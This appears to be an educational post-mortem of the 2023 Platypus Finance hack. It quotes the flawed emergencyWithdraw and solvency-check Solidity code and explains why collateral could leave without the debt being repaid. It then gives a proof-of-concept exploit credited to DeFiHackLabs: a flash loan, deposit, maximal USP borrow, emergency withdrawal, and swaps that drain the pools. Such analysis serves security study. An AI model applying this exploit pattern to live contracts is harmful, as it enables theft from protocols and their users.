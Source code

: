 # Platypus Finance


## What's Platypus Finance?
Platypus Finance is a single-sided Automatic Market Maker (AMM) for stablecoins built on the Avalanche network that is designed to optimize capital efficiency

## Amount stolen
**$8.5 Million USD **

February 16, 2023  


## Vulnerability



## Analysis

The `emergencyWithdraw` function in the `MasterPlatypus` contract allows a user to withdraw
their LP tokens from a given pool without caring about rewards.

```solidity
     function emergencyWithdraw(uint256 _pid) public nonReentrant {
       PoolInfo storage pool = poolInfo[_pid];
       UserInfo storage user = userInfo[_pid][msg.sender];


       if (address(platypusTreasure) != address(0x00)) {
           (bool isSolvent, ) = platypusTreasure.isSolvent(msg.sender, address(poolInfo[_pid].lpToken), true);
           require(isSolvent, 'remaining amount exceeds collateral factor');
       }


       // reset rewarder before we update lpSupply and sumOfFactors
       IBoostedMultiRewarder rewarder = pool.rewarder;
       if (address(rewarder) != address(0)) {
           rewarder.onPtpReward(msg.sender, user.amount, 0, user.factor, 0);
       }


       // SafeERC20 is not needed as Asset will revert if transfer fails
       pool.lpToken.transfer(address(msg.sender), user.amount);


       // update non-dialuting factor
       pool.sumOfFactors -= user.factor;


       user.amount = 0;
       user.factor = 0;
       user.rewardDebt = 0;


       emit EmergencyWithdraw(msg.sender, _pid, user.amount);
   }
```

The only check done by this function is whether the user is solvent or not, 
using `PlatypusTreasure.isSolvent`. That function uses an internal function called `_isSolvent`. 


```solidity
    function _isSolvent(
       address _user,
       ERC20 _token,
       bool _open
   ) internal view returns (bool solvent, uint256 debtAmount) {
       uint256 debtShare = userPositions[_token][_user].debtShare;


       // fast path
       if (debtShare == 0) return (true, 0);


       // totalDebtShare > 0 as debtShare is non-zero
       debtAmount = (debtShare * (
      totalDebtAmount + _interestSinceLastAccrue())) / totalDebtShare;
      solvent = debtAmount <= (
             _open ? _borrowLimitUSP(_user, _token) : _liquidateLimitUSP(_user, _token));
   }
```

The underlying mechanism of this check involves the utilization of an internal function 
named `_isSolvent`. The boolean variable returned by this function is true when the user's debt is less than or equal to its USP borrow limit. 
Essentially, a user is considered solvent if their collateral is sufficient to cover their debt. It's crucial to note that withdrawing collateral 
must not result in any outstanding debt. The `emergencyWithdraw` function allows users with debt to withdraw all collateral 
LP tokens without settling the previously borrowed USP associated with that collateral, thereby leaving the protocol in a state of indebtedness.

In many decentralized finance (DeFi) protocols, it is typical for a liquidity pool to automatically repay 
a user's debt when they withdraw their funds. This mechanism ensures that users cannot withdraw their collateral without
settling any outstanding debt they might have incurred while using the protocol.


# proof of concept (PoC) 

![euler Image](../images/platypus.drawio.png)


1. `Flashloan` 44 Million USDC from Aave
2. `Deposit` the borrowed USDC into the `platypus` pool to get LP tokens
4. `Deposit` LP tokens to the `masterPlatypus` contract as **collateral**
5. `Borrow` as much **USP** as possible against the LP collateral
6. Execute `emergencyWithdraw` to get the LP collateral back **without** paying debt




### Flashloan
```solidity
     function testExploit() external {
          aaveV3.flashLoanSimple(address(this), address(USDC), 44_000_000 * 1e6, new bytes(0), 0);
     }
```

### Flashloan fallback
```solidity
     function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initator,
        bytes calldata params
    ) external returns (bool) {
        USDC.approve(address(aaveV3), amount + premium);
        USDC.approve(address(Pool), amount);

        //step 2: deposit the borrowed USDC into the platypus pool to get LP tokens.
        Pool.deposit(address(USDC), amount, address(this), block.timestamp); // deposit USDC to LP-USDC


        uint256 LPUSDCAmount = LPUSDC.balanceOf(address(this));
        LPUSDC.approve(address(Master), LPUSDCAmount);

        //step 3: deposit LP tokens to the masterPlatypus contract as collateral
        Master.deposit(4, LPUSDCAmount); // deposit LP-USDC to MasterPlatypus


        PlatypusTreasure.PositionView memory Position = Treasure.positionView(address(this), address(LPUSDC));
        uint256 borrowAmount = Position.borrowLimitUSP;

        //step 4: borrow as much USP as possible against the LP collateral
        Treasure.borrow(address(LPUSDC), borrowAmount); // borrow USP from Treasure

        //step 5: execute emergecyWithdraw to get the LP colletral back wihtout paying debt
        Master.emergencyWithdraw(4);


        LPUSDC.approve(address(Pool), LPUSDC.balanceOf(address(this)));

        // step 6: use the LP tokens to withdraw the USDC initisially borrowed from aava to pay back flashloan.
        Pool.withdraw(address(USDC), LPUSDC.balanceOf(address(this)), 0, address(this), block.timestamp); // withdraw USDC from LP-USDC

        // swap USP for playtupuis pool liquidity in form of other
        swapUSPToOtherToken();
        return true;
    }

      function swapUSPToOtherToken() internal {
        USP.approve(address(Pool), 9_000_000 * 1e18);
        Pool.swap(address(USP), address(USDC), 2_500_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDC_E), 2_000_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT), 1_600_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT_E), 1_250_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(BUSD), 700_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(DAI_E), 700_000 * 1e18, 0, address(this), block.timestamp);
    }
```







**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Platypus_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
